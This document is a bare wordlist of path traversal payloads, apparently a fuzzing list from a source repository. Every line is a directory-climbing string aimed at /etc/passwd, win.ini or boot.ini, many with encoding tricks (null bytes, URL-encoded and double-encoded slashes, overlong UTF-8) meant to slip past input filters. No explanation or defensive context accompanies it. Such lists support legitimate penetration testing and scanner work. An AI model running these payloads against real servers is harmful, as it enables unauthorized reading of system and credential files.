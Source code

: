 ../etc/passwd
../../etc/passwd
../../../../etc/passwd
../../../../../../../../../../etc/passwd
../../../../../windows/win.ini
../../../windows/win.ini
../../../../../../../windows/win.ini
../../../../../../../../../../windows/win.ini
../boot.ini
../../boot.ini
../../../../../../boot.ini
../../../../../../../../../../boot.ini
../%00
..%00/
..%00/./
..%00/../
..%00/..%00/
..%00/..%00../
../%2e%2e%2f
../%2e%2e%2fetc/passwd
..%2fetc/passwd
..%2fetc%2fpasswd
..%2f../etc/passwd
..%2f../etc%2fpasswd
..%2f../../etc/passwd
..%2f../../etc%2fpasswd
..%2f../../../etc/passwd
..%2f../../../etc%2fpasswd
..%2f../../../../etc/passwd
..%2f../../../../etc%2fpasswd
..%5c
..%5cetc/passwd
..%5c../etc/passwd
..%5c../etc%5cpasswd
..%5c..%5c..%5c..%5cetc%5cpasswd
..%2f..%5c..%5c..%2f..%5c..%2f..%5c..%2f..%5c..%2f..%5c..%2f..%5c..%2fetc/passwd
..\
..\etc\passwd
..\..\etc\passwd
..\..\..\etc\passwd
..\..\..\..\..\..\etc\passwd
..\boot.ini
..\..\boot.ini
..\..\..\boot.ini
..\..\..\..\..\..\boot.ini
..%255c
..%255cetc%255cpasswd
..%c0%af
..%c1%9c